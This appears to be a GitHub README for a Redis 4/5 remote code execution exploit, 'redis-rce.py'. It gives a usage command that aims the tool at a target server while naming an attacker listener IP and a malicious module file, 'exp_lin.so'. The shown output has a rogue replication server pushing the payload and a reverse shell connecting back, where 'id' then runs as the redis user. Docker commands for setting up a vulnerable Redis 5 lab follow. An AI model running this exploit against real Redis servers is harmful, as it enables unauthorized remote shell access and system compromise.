

# Redis-RCE
### remote code execute for redis4 and redis5


#### python code from https://github.com/Ridter/redis-rce




### Usage:

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

```
redis_server: 10.10.20.166

attack_ip: 192.168.2.18

python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so
test
[*] Connecting to  10.10.20.166:6379...
[*] Listening on 192.168.2.18:21000
[*] Sending SLAVEOF command to server
Accepted connection from 192.168.2.18:20499
[*] Setting filename
[*] Tring to run payload
Accepted connection from 192.168.2.18:21000
[*] Closing rogue server...
Received backconnect, use exit to exit...
$
$ id
€嵢uid=100(redis) gid=101(redis) groups=101(redis),101(redis)
$

```

### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 docker pull redis5
```
docker pull hareemca123/redis5:alpine
alpine: Pulling from hareemca123/redis5
4fe2ade4980c: Pull complete 
47fa4eeb2853: Pull complete 
4e971ebf579e: Pull complete 
e2187b6a3d91: Pull complete 
b944fad88755: Pull complete 
9b71ca914208: Pull complete 
Digest: sha256:60f6a913f606341be11686f604ef97d79be32d6ee22f5036ea592423e0950ca4
Status: Downloaded newer image for hareemca123/redis5:alpine

```
### 0x03 Start redis5 docker
```
docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine

cf1e25077f6e5f88e6ba6a5ae4bcc17e38c27a28961f52932ad7c77c3fc446d9
```


### 0x04 git clone github.com/Ridter/redis-rce


```
redis-rce# ls
exp_lin.so  exp_osx.so  README.md  redis-rce.py
```
